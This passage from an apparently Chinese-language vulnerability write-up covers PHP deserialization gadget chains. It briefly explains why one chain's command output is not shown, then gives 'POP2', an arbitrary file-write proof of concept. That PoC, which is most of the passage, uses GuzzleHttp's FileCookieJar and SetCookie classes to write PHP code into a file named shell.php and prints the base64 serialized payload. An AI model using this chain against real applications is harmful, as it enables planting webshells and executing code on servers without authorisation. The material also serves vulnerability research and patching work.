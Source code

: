 只要是实现了ShouldQueue的一个类就可以了

但是在call_user_func结束后会进入一个if判断是否实现了Queue接口，这也就是为什么抛出异常的原因，最后看不到命令执行的回显

# POP2

## 漏洞复现

这是个任意文件写入的链子，POC如下

```
<?php

namespace GuzzleHttp\Cookie {

    class SetCookie
    {
        private static $defaults = [
            'Name'     => null,
            'Value'    => null,
            'Domain'   => null,
            'Path'     => '/',
            'Max-Age'  => null,
            'Expires'  => null,
            'Secure'   => false,
            'Discard'  => false,
            'HttpOnly' => false
        ];
        function __construct()
        {
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar
    {
        private $cookies = [];
        private $strictMode;
        function __construct()
        {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar
    {
        private $filename;
        private $storeSessionCookies;
        function __construct()
        {
            parent::__construct();
            $this->filename = "shell.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace {
    $pop = new \GuzzleHttp\Cookie\FileCookieJar();
    echo base64_encode(serialize($pop));
}
```
